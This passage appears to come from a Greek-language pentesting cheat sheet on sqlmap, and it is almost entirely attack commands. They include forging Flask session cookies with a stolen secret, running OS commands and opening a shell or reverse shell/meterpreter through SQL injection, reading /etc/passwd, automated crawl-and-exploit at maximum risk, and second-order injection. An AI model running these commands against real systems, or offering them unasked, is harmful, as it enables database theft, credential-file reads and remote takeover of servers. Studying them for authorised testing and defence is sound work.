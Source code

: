 **Sqlmap** επιτρέπει τη χρήση του `-e` ή `--eval` για την επεξεργασία κάθε payload πριν την αποστολή του με κάποιο python oneliner. Αυτό καθιστά πολύ εύκολη και γρήγορη την επεξεργασία με προσαρμοσμένους τρόπους του payload πριν την αποστολή του. Στο παρακάτω παράδειγμα, το **flask cookie session** **υπογράφεται από το flask με το γνωστό μυστικό πριν την αποστολή του**:
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
### Κέλυφος
```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
### Διαβάστε το αρχείο
```bash
--file-read=/etc/passwd
```
### Σάρωση μιας ιστοσελίδας με το SQLmap και αυτόματη εκμετάλλευση
```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
### Δεύτερη Τάξη Εισαγωγής
```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```
[**Διαβάστε αυτή την ανάρτηση** ](second-order-injection-sqlmap.md)**για το πώς να εκτελέσετε απλές και σύνθετες δεύτερες παραγγελίες με sqlmap.**

## Προσαρμογή Εισαγωγής

### Ορίστε ένα επίθημα
```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```
### Πρόθεμα
```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```
### Βοήθεια για την εύρεση λογικής ένεσης
```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```
### Tamper
